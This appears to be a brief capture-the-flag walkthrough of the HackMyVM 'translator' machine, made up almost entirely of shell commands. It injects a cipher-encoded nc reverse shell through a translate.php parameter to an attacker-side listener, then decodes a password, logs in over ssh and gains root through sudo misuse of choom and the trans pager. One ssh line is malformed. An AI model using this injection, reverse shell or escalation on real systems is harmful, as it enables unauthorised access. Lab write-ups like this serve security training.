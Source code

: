 ```yaml
---
title: "translator - sml"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - translator
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# translator - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|translator|
|Author:|[sml](https://hackmyvm.eu/profile/?user=sml)|
|Release date:|2022-05-12|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=translator)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|tricks |

# 00. Beginning
My another shortest entry.
{: .text-justify}
# 01.
## Sending
```bash
curl 'http://172.16.1.121/translate.php?hmv=;mx%20-x%20yzhs%20172.16.1.89%2012345'
```
## Receiving
```bash
nc -lvp 12345
```
# 02. 
```bash
cat /var/www/html/hvxivg
```
## My password is:
```bash
curl 'http://172.16.1.121/translate.php?hmv=Mb+kzhhdliw+rh+zbfie3w4'
```
# 03.
```bash
ssh ocean@http://172.16.1.121
```
# 04.
```bash
sudo -uindia /usr/bin/choom -n 0 -- bash
```
# 05.

```bash
sudo /usr/local/bin/trans -pager less
```
06. Final
```bash
word
/wərd/

palabra

Definiciones de word
[ English -> Español ]

sustantivo
    (la) palabra
        word, term, speech
    (el) término
        term, end, word, terminus, concept, definition
    (la) voz
        voice, word, vocals
    (el) vocablo
        word, term
    (la) noticia
        news, news item, report, piece of news
    (el) verbo
        verb
    (el) dicho
        saying, word, adage, statement, dictum, expression
    (la) orden
        order, command, warrant, sequence, arrangement, word
    (el) aviso
        notice, warning, ad, announcement, message, notification
    (el) recado
        message
    (la) indicación
        indication, sign, suggestion, hint, direction, word

verbo
    decir
        say, tell, speak, mention, call, word
!bash
```